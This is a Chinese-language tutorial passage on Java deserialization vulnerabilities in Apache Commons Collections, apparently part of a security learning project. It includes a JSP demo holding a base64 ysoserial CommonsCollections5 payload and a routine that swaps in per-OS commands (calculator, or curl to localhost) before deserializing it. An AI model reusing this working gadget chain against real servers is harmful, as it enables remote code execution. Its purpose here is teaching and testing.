

# Java反序列化漏洞

`Apache Commons`是`Apache`开源的Java通用类项目在Java中项目中被广泛的使用，`Apache Commons`当中有一个组件叫做`Apache Commons Collections`，主要封装了Java的`Collection(集合)`相关类对象。攻击者利用存在漏洞版本的`Apache Commons Collections`库的反序列化包发送到服务器端进行反序列化操作就会导致服务器被非法入侵。

示例-Java反序列化：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.commons.codec.binary.Base64" %>
<%@ page import="java.io.ByteArrayInputStream" %>
<%@ page import="java.io.ObjectInputStream" %>
<%@ page import="java.util.Arrays" %>
<%!
    byte[] replaceBytes(byte[] classBuffer, String findCommand, String command) {
        // 将类字节码转换成byte字符串
        String bufferStr = Arrays.toString(classBuffer);

        bufferStr = bufferStr.replace("[", "").replace("]", "");

        // 查找需要替换的Java二进制内容
        byte[] findBytes = findCommand.getBytes();

        // 把搜索的字符串byte转换成byte字符串
        String findStr = Arrays.toString(findBytes).replace("[", "").replace("]", "");

        // 二进制替换后的byte值，注意这个值需要和替换的字符串长度一致，不然会破坏常量池
        byte[] replaceBytes = command.getBytes();

        // 把替换的字符串byte转换成byte字符串
        String replaceStr = Arrays.toString(replaceBytes).replace("[", "").replace("]", "");

        bufferStr = bufferStr.replace(findStr, replaceStr);

        // 切割替换后的byte字符串
        String[] byteArray = bufferStr.split("\\s*,\\s*");

        // 创建新的byte数组，存储替换后的二进制
        byte[] bytes = new byte[byteArray.length];

        // 将byte字符串转换成byte
        for (int i = 0; i < byteArray.length; i++) {
            bytes[i] = Byte.parseByte(byteArray[i]);
        }

        return bytes;
    }
%>
<%
    // Linux会执行curl localhost:9999端口、Windows和OSX系统都是弹出计算器
    String findCommand = "open -a Calculator.app";
    String command = "open -a Calculator.app";
    byte[] classBuffer = Base64.decodeBase64("rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAA3NyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAUXQAJnlzb3NlcmlhbC5wYXlsb2Fkcy5Db21tb25zQ29sbGVjdGlvbnM1dAAYQ29tbW9uc0NvbGxlY3Rpb25zNS5qYXZhdAAJZ2V0T2JqZWN0c3EAfgALAAAAM3EAfgANcQB+AA5xAH4AD3NxAH4ACwAAACJ0ABl5c29zZXJpYWwuR2VuZXJhdGVQYXlsb2FkdAAUR2VuZXJhdGVQYXlsb2FkLmphdmF0AARtYWluc3IAJmphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVMaXN0/A8lMbXsjhACAAFMAARsaXN0cQB+AAd4cgAsamF2YS51dGlsLkNvbGxlY3Rpb25zJFVubW9kaWZpYWJsZUNvbGxlY3Rpb24ZQgCAy173HgIAAUwAAWN0ABZMamF2YS91dGlsL0NvbGxlY3Rpb247eHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHhxAH4AGnhzcgA0b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmtleXZhbHVlLlRpZWRNYXBFbnRyeYqt0ps5wR/bAgACTAADa2V5cQB+AAFMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAF4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWVxAH4ABVsAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXVyABJbTGphdmEubGFuZy5DbGFzczurFteuy81amQIAAHhwAAAAAHQACWdldE1ldGhvZHVxAH4AMgAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+ADJzcQB+ACt1cQB+AC8AAAACcHVxAH4ALwAAAAB0AAZpbnZva2V1cQB+ADIAAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAvc3EAfgArdXIAE1tMamF2YS5sYW5nLlN0cmluZzut0lbn6R17RwIAAHhwAAAAAXQAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHB0AARleGVjdXEAfgAyAAAAAXEAfgA3c3EAfgAnc3IAEWphdmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cAAAAAFzcgARamF2YS51dGlsLkhhc2hNYXAFB9rBwxZg0QMAAkYACmxvYWRGYWN0b3JJAAl0aHJlc2hvbGR4cD9AAAAAAAAAdwgAAAAQAAAAAHh4");
    String osName = System.getProperty("os.name");

    // 替换的命令必须保持长度和默认命令一样，否则会导致无法反序列化
    if (osName.startsWith("Windows")) {
        command = "calc 12345678901234567";
    } else if (osName.startsWith("Linux")) {
        command = "curl localhost:9999/ok";
    }

    byte[] bytes = replaceBytes(classBuffer, findCommand, command);

    ObjectInputStream bis = new ObjectInputStream(new ByteArrayInputStream(bytes));
    bis.readObject();
%>
```

示例程序会根据操作系统类型执行对应的本地系统命令：Linux会执行`curl localhost:9999`端口、Windows和OSX系统都是弹出计算器，如在OSX上访问测试用例会成功弹出计算器，访问：http://localhost:8000/modules/deserialization/deserialization.jsp，如下图：

